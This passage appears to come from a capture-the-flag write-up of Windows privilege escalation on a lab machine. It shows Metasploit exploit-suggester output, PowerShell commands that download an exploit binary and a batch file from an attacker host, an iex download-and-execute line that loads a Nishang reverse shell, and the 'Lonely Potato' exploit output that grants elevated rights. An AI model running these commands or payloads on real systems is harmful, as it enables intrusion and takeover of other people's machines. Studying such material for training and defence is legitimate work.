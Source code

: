```

msf post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.93 - Collecting local exploits for x64/windows...
[*] 10.10.10.93 - 18 exploit checks are being tried...
[+] 10.10.10.93 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.93 - exploit/windows/local/ms16_014_wmi_recv_notif: The target appears to be vulnerable.
[+] 10.10.10.93 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[*] Post module execution completed

```

### Escalation Method 1: Lonely Potato

I’ll grab a copy of the the [compiled lonelypotato binary](https://github.com/decoder-it/lonelypotato/blob/master/RottenPotatoEXE/MSFRottenPotato.exe) and upload it to target, along with a bat script that will start another Nishang shell:

```

PS C:\users\merlin\appdata\local\temp> (new-object net.webclient).downloadfile('http://10.10.14.5/lonelypotato.exe', 'C:\users\merlin\appdata\local\temp\lp.exe')
PS C:\users\merlin\appdata\local\temp> (new-object net.webclient).downloadfile('http://10.10.14.5/rev.bat', 'C:\users\merlin\appdata\local\temp\rev.bat')

PS C:\users\merlin\appdata\local\temp> type rev.bat
powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.5/Invoke-PowerShellTcp.ps1')

```

Now run it, and get a shell:

```

PS C:\users\merlin\appdata\local\temp> C:\users\merlin\appdata\local\temp\lp.exe * C:\users\merlin\appdata\local\temp\rev.bat
CreateIlok: 0 0
CreateDoc: 0 0
connect sock
start RPC  connection
COM -> bytes received: 116
RPC -> bytes Sent: 116
RPC -> bytes received: 84
COM -> bytes sent: 84
COM -> bytes received: 24
RPC -> bytes Sent: 24
RPC -> bytes received: 136
COM -> bytes sent: 136
COM -> bytes received: 135
RPC -> bytes Sent: 135
RPC -> bytes received: 216
COM -> bytes sent: 216
COM -> bytes received: 158
RPC -> bytes Sent: 158
RPC -> bytes received: 56
COM -> bytes sent: 56
CoGet: -2147022986 0
[+] authresult != -1
[+] Elevated Token tye:2
[+] DuplicateTokenEx :1  0
[+] Duped Token type:1
[+] Running C:\users\merlin\appdata\local\temp\rev.bat sessionId 1
[+] CreateProcessWithTokenW OK
```